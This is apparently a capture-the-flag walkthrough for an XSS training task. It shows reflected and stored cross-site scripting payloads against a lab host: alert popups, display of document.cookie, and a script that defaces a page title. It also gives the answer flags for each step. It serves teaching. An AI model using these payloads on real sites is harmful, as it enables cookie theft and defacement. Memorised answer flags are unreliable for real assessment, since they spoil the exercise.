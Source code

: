 # Task 20

- [Task 20](#task-20)
  - [Navigate to http://10.10.172.84/ in your browser and click on the "Reflected XSS" tab on the navbar; craft a reflected XSS payload that will cause a popup saying "Hello".](#navigate-to-http101017284-in-your-browser-and-click-on-the-reflected-xss-tab-on-the-navbar-craft-a-reflected-xss-payload-that-will-cause-a-popup-saying-hello)
    - [Answer](#answer)
  - [On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.](#on-the-same-reflective-page-craft-a-reflected-xss-payload-that-will-cause-a-popup-with-your-machines-ip-address)
    - [Answer](#answer-1)
  - [Now navigate to http://10.10.172.84/ in your browser and click on the "Stored XSS" tab on the navbar; make an account. Then add a comment and see if you can insert some of your own HTML.](#now-navigate-to-http101017284-in-your-browser-and-click-on-the-stored-xss-tab-on-the-navbar-make-an-account-then-add-a-comment-and-see-if-you-can-insert-some-of-your-own-html)
    - [Answer](#answer-2)
  - [On the same page, create an alert popup box appear on the page with your document cookies.](#on-the-same-page-create-an-alert-popup-box-appear-on-the-page-with-your-document-cookies)
    - [Answer](#answer-3)
  - [Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.](#change-xss-playground-to-i-am-a-hacker-by-adding-a-comment-and-using-javascript)
    - [Answer](#answer-4)

## Navigate to http://10.10.172.84/ in your browser and click on the "Reflected XSS" tab on the navbar; craft a reflected XSS payload that will cause a popup saying "Hello".

On input search

```javascript
<script>alert(“Hello”)</script>
```

### Answer

ThereIsMoreToXSSThanYouThink

## On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.

```javascript
<script>alert(window.location.hostname)</script>
```

### Answer

ReflectiveXss4TheWin

## Now navigate to http://10.10.172.84/ in your browser and click on the "Stored XSS" tab on the navbar; make an account. Then add a comment and see if you can insert some of your own HTML.

```html
<h1>this is an HTML tag </h1>
```

### Answer

HTML_T4gs

## On the same page, create an alert popup box appear on the page with your document cookies.

```javascript
<script>alert(document.cookie)</script>
```

### Answer

W3LL_D0N3_LVL2

## Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.

Find the ID of the XSS playground element

![picture 1](../../../images/b910a8dca192cfd89e216426ece6d2fab9dd6c84c0929eedacf2341493b787b3.png)  

```javascript
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
```

### Answer

websites_can_be_easily_defaced_with_xss